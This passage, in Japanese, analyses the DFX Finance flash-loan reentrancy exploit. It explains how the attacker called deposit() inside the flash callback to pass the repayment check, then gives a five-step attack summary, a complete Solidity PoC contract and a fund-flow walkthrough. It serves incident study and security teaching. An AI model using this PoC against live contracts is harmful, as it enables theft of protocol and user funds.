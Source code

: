   ```solidity
  require(balance0Before.add(fee0) <= balance0After, 'Curve/insufficient-token0-returned');
  require(balance1Before.add(fee1) <= balance1After, 'Curve/insufficient-token1-returned');
  ```

  攻撃者は、攻撃前にフラッシュローンの手数料メカニズムのためにいくらかの`USDC`と`XIDR`トークンを用意していたことに注意が必要です。これが、攻撃者のデポジットが借入額よりも比較的高い理由です。したがって、`deposit`呼び出しの合計額は、フラッシュローンで借りた金額と手数料の合計です。これにより、`flash`関数内の検証を通過できます。

  結果として、攻撃者はコールバック関数内で`deposit`を呼び出し、フラッシュローンの検証を迂回し、デポジットの記録を残しました。これらすべての操作の後、攻撃者はトークンを引き出しました。

  まとめると、攻撃全体の流れは以下の通りです。

  1.  事前に`USDC`と`XIDR`トークンを用意する。
  2.  `viewDeposit()`を使用して、後続の`deposit()`に必要な資産量を取得する。
  3.  ステップ 2 の戻り値に基づいて`USDC`と`XIDR`トークンをフラッシュする。
  4.  フラッシュローンコールバック内で`deposit()`関数を呼び出す。
  5.  前のステップでデポジット記録があるため、トークンを引き出す。

  完全な PoC の実装：

  ```solidity
  contract EXP {
      uint256 amount;
      function testExploit() public{
        uint[] memory XIDR_USDC = new uint[](2);
        XIDR_USDC[0] = 0;
        XIDR_USDC[1] = 0;
        ( , XIDR_USDC) = dfx.viewDeposit(200_000 * 1e18);
        dfx.flash(address(this), XIDR_USDC[0] * 995 / 1000, XIDR_USDC[1] * 995 / 1000, new bytes(1)); // 5% fee
        dfx.withdraw(amount, block.timestamp + 60);
    }

      function flashCallback(uint256 fee0, uint256 fee1, bytes calldata data) external{
        (amount, ) = dfx.deposit(200_000 * 1e18, block.timestamp + 60);
    }
  }
  ```

  より詳細なコードベースは DefiHackLabs リポジトリで見つけることができます: [DFX_exp.sol](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/2022-11/DFX_exp.sol)

- 資金フローの検証

  次に、トランザクション中のトークンイベントで資産フローグラフを検証できます。

  ![image](https://user-images.githubusercontent.com/53768199/215331469-e1edd9b4-5147-4f82-9e38-64edce3cc91f.png)

  `deposit`関数の最後に、`dfx-xidr-v2`トークンが攻撃者にミントされました。

  ![image](https://user-images.githubusercontent.com/53768199/215331545-9730e5b0-564d-45d8-b169-3b7c8651962f.png)

  `flash`関数では、送金イベントが DFX マルチシグウォレットへの手数料徴収（`USDC`と`XIDR`）を示しています。

  ![image](https://user-images.githubusercontent.com/53768199/215331819-d80a1775-4056-4ddd-9083-6f5241d07213.png)

  `withdraw`関数は、以前のステップでミントされた`dfx-xidr-v2`トークンをバーンしました。

